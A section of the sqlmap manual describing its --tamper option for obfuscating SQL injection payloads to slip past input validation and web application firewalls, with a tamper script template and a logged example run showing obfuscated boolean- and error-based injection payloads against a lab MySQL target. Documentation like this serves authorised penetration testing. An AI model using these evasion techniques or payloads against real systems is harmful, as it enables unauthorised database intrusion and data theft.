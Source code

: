 ### Tamper injection data

Option: `--tamper`

sqlmap itself does no obfuscation of the payload sent, except for strings between single quotes replaced by their `CHAR()`-alike representation. 

This option can be very useful and powerful in situations where there is a weak input validation mechanism between you and the back-end database management system. This mechanism usually is a self-developed input validation routine called by the application source code, an expensive enterprise-grade IPS appliance or a web application firewall (WAF). All buzzwords to define the same concept, implemented in a different way and costing lots of money, usually. 

To take advantage of this option, provide sqlmap with a comma-separated list of tamper scripts and this will process the payload and return it transformed. You can define your own tamper scripts, use sqlmap ones from the `tamper/` folder or edit them as long as you concatenate them comma-separated as value of the option `--tamper` (e.g. `--tamper="between,randomcase"`). 

The format of a valid tamper script is as follows:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ {.python}
# Needed imports
from lib.core.enums import PRIORITY

# Define which is the order of application of tamper scripts against
# the payload
__priority__ = PRIORITY.NORMAL

def tamper(payload):
    '''
    Description of your tamper script
    '''

    retVal = payload

    # your code to tamper the original payload

    # return the tampered payload
    return retVal
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 

You can check valid and usable tamper scripts in the `tamper/` directory.

Example against a MySQL target assuming that `>` character, spaces and capital `SELECT` string are banned:

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --\
tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3

[hh:mm:03] [DEBUG] cleaning up configuration parameters
[hh:mm:03] [INFO] loading tamper script 'between'
[hh:mm:03] [INFO] loading tamper script 'randomcase'
[hh:mm:03] [INFO] loading tamper script 'space2comment'
[...]
[hh:mm:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1)/**/And/**/1369=7706/**/And/**/(4092=4092
[hh:mm:04] [PAYLOAD] 1)/**/AND/**/9267=9267/**/AND/**/(4057=4057
[hh:mm:04] [PAYLOAD] 1/**/AnD/**/950=7041
[...]
[hh:mm:04] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause
'
[hh:mm:04] [PAYLOAD] 1/**/anD/**/(SELeCt/**/9921/**/fROm(SELeCt/**/counT(*),CONC
AT(cHar(58,117,113,107,58),(SELeCt/**/(case/**/whEN/**/(9921=9921)/**/THeN/**/1/
**/elsE/**/0/**/ENd)),cHar(58,106,104,104,58),FLOOR(RanD(0)*2))x/**/fROm/**/info
rmation_schema.tables/**/group/**/bY/**/x)a)
[hh:mm:04] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or
```